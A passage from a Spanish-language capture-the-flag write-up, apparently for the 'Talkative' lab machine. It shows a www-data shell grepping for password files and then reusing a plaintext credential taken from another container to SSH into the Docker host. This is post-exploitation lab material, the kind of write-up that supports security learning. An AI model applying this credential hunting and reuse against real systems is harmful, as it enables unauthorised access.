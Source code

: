 ```null
www-data@0a98dac47868:/var/www/talkative.htb/bolt/public$ hostname -I
172.17.0.10 
```

Aplico una búsqueda recursiva de archivos que contengan las palabras ```username``` o ```password```

```null
www-data@0a98dac47868:/var/www/talkative.htb/bolt/public$ grep -rilE "user|password"    
robots.txt
assets/197.css
assets/bolt.css
assets/article/article-editor.min.js
assets/197.js
assets/redactor/langs/no.js
assets/redactor/redactor.min.js
assets/bolt.js
assets/322.js
bundles/apiplatform/swagger-ui/swagger-ui.css.map
bundles/apiplatform/swagger-ui/swagger-ui-standalone-preset.js
bundles/apiplatform/swagger-ui/swagger-ui-standalone-preset.js.map
bundles/apiplatform/swagger-ui/swagger-ui.css
bundles/apiplatform/swagger-ui/swagger-ui-bundle.js.map
bundles/apiplatform/swagger-ui/swagger-ui-bundle.js
bundles/apiplatform/redoc/redoc.standalone.js
bundles/apiplatform/fetch/fetch.js
bundles/apiplatform/graphql-playground/middleware.js
bundles/apiplatform/graphiql/graphiql.css
bundles/apiplatform/graphiql/graphiql.min.js
bundles/apiplatform/react/react.production.min.js
bundles/apiplatform/react/react-dom.production.min.js
bundles/translation/css/bootstrap.4.1.1.min.css.map
bundles/translation/css/content-tools.min.css
bundles/translation/css/bootstrap.4.1.1.min.css
bundles/translation/js/symfonyProfiler.js
bundles/translation/js/content-tools.min.js
theme/base-2018/css/bulma.css
theme/base-2018/partials/_fresh_install.twig
theme/base-2018/partials/_aside.twig
theme/base-2018/js/app.js
theme/base-2021/css/tailwind.css
theme/skeleton/partials/_recordfooter.twig
theme/skeleton/partials/_fresh_install.twig
theme/skeleton/partials/_aside.twig
```

Pero ninguno de estos contiene credenciales. Sin embargo, tengo 3 usuarios con contraseñas que extraje del primer contenedor. Pruebo a conectarme por SSH a la 172.17.0.1. Son válidas para ```saul:jeO09ufhWD<s```

```null
www-data@0a98dac47868:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
The authenticity of host '172.17.0.1 (172.17.0.1)' can't be established.
ECDSA key fingerprint is SHA256:kUPIZ6IPcxq7Mei4nUzQI3JakxPUtkTlEejtabx4wnY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
saul@172.17.0.1's password: 
Permission denied, please try again.
saul@172.17.0.1's password: 

saul@talkative:~$
`` 

Puedo ver la primera flag
```